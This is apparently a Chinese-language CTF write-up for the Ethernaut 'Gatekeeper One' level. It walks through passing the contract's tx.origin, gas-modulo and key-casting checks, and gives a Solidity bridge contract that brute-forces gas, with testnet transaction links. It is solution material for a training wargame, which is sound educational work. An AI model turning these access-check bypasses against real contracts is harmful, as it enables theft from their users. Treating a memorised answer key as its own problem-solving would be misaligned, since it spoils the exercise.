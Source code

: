 # level 13: Gatekeeper One

## 1. 问题

要求你成功调用 `GatekeeperOne` 合约的 `enter` 函数，函数成功执行不抛异常。也就是可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateThree` 
2. 我们先看 `gateThree`, 他需要入参 `_gateKey` 满足几个类型转换结果。我们用chisel做一下测试：

```solidity
// 测试一下截取情况
bytes8 _gateKey=hex"0102030405060708";
// 看下几个require语句中左边的目标值
uint32 left = uint32(uint64(_gateKey))
// 看下第一个require右边的值
uint16 right1 = uint16(uint64(_gateKey))
// 看下第二个require右边的值
uint64 right2 = uint64(_gateKey)
// 随便找一个随机的地址，看下第三个require右边的值
uint16 right3 = uint16(uint160(address(bytes20(hex"D5691358Aa1b5eBB8af26Ad0Aba3CBD74b31690a"))))
```

![](../../resources/img/level13_gatekeeperone/cut.png)

> [!NOTE]
> 通过观察上面的结果我们发现:
> * left和right1只在 `0506` 所在的2个字节处理不一样，如果想要第一个require满足，我们只要将 `_gateKey` 的这2个字节设置为0
> * left和right2在 `05060708`这四个字节处理是一样的，所以如果想要第二个require满足，也就是想要left不等于right，那么 `_gateKey` 的前4个字节不能都为0
> * right3会把原始地址的最后2个字节保留，所以如果第三个require要满足，如果想要left和right3相等，那么 `_gateKey` 的最后2个字节要和 `tx.orign`, 也就是我们的EOA地址一致

3. 我们使用的EOA地址结尾为 `fB2c`, 所以我们设置的 `_gateKey` 为 `0x010203040000fb2c`


### 2.3. `gateTwo`
4. 我们最后看`gateTwo`。 他要求 `gasleft() % 8191 == 0`。一方面我们可以通过 `GatekeeperOne.call{gas: XXX}(abi.encodeWithSignature("enter(bytes8)", YYYY))` 来设置 `enter` 函数的总 gas。

5. 因为函数的入参传递等操作也可能消耗gas，所以我们很难直接估算出一个精确的gas。所以我们直接部署一个合约，暴力尝试：

```solidity
contract GatekeeperBridge {
    GatekeeperOne private gatekeeperone;

    constructor(address _gatekeeperone) {
        gatekeeperone = GatekeeperOne(_gatekeeperone);
    }

    function myCall(bytes8 _gateKey) external {
        // console.log("mycall tx.origin: %s, msg.sender: %s", tx.origin, msg.sender);
        for (uint256 gas1 = 0; gas1 < 8000; gas1++) {
            try gatekeeperone.enter{gas: 8191*3 + gas1}(_gateKey) {
                // console.log("target gas: %s", gas1);
                break;
            } catch (bytes memory reason) {
                // console.log("revert reason: %s", string(reason));
                continue;
            }
        }
    }
}
```

6. 注意这个可能会消耗很多的gas。因为只有尝试到正确的 `gas1` 的值才会停止。所以我们写一个单测 [Level13_localTest.t.sol](../../test/level13/Level13_localTest.t.sol) 估算一下 `gas1` 的范围，得到相对靠谱的：

```bash
forge test -vv --match-contract Level13Test
```

![](../../resources/img/level13_gatekeeperone/script1.png)

7. 所以我们可以优化这个循环，改成从200开始： `for (uint256 gas1 = 200; gas1 < 300; gas1++) {`

8. 在 remix 中编译并且部署这个合约， 交易地址 [0x8af8f7a9081fa071f87f2d79d7248143558c2228d9b23fc6e469b47ea36bbefd](https://sepolia.etherscan.io/tx/0x8af8f7a9081fa071f87f2d79d7248143558c2228d9b23fc6e469b47ea36bbefd)

9. 在 remix 中调用 `myCall` 接口，触发执行，交易地址 [0x8e2445887064bf108faf6a423b566f06769d40d96896edd297f8c7c37bc11419](https://sepolia.etherscan.io/tx/0x8e2445887064bf108faf6a423b566f06769d40d96896edd297f8c7c37bc11419)

10. 点击 `submit instance`， 提交通过！

| [⬅️ level12 Privacy](../level12_privacy/README.md) | [level14 Gatekeeper Two ➡️](../level14_gatekeeper_two/README.md) |
|:------------------------------|--------------------------:|